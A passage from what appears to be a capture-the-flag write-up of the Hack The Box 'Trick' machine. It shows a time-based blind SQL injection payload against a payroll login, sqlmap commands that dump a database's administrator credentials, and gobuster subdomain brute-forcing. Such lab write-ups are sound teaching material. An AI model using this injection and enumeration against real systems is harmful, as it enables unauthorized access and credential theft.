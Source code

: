 So we now have the following possible domains:
```
trick.htb
root.trick.htb
preprod-payroll.trick.htb
```

## Port 80
Visiting `trick.htb` and `root.trick.htb` didn't yield anything interesting, just a barebones basic website. Running a `gobuster` scan on it also revealed nothing of note. The third subdomain `preprod-payroll.trick.htb` did have something interesting in it, there's a payroll system. Inserting a single quote into it I was able to determine that it contained a SQL injection vulnerability. Using SQLMap, I was able to discover the login username/password:
```bash
$ sqlmap -r get.txt
...
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=root' AND (SELECT 8596 FROM (SELECT(SLEEP(5)))WGGL) AND 'IitU'='IitU&password=root
---
[01:01:06] [INFO] the back-end DBMS is MySQL
...

$ sqlmap -r get.txt --dbs
...
available databases [2]:
[*] information_schema
[*] payroll_db
...

$ sqlmap -r get.txt --database payroll_db --dump
...
Database: payroll_db
Table: users
[1 entry]
+----+-----------+---------------+------+---------+---------+-----------------------+------------+
| id | doctor_id | name          | type | address | contact | password              | username   |
+----+-----------+---------------+------+---------+---------+-----------------------+------------+
| 1  | 0         | Administrator | 1    | <blank> | <blank> | SuperGucciRainbowCake | Enemigosss |
+----+-----------+---------------+------+---------+---------+-----------------------+------------+
...
```

This is where I remained stuck for a while, as the login credentials provided did not appear to provide any additional leads once logged in. Eventually, I discovered that there was another subdomain:


This is where I first got stuck for a while, eventually I found that there are MORE subdomains on the website.
```bash
$ cat /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt | sed 's/\(.*\)/preprod-\1/g' > list.txt

$ gobuster dns -w list.txt -d trick.htb    
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     trick.htb
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   list.txt
```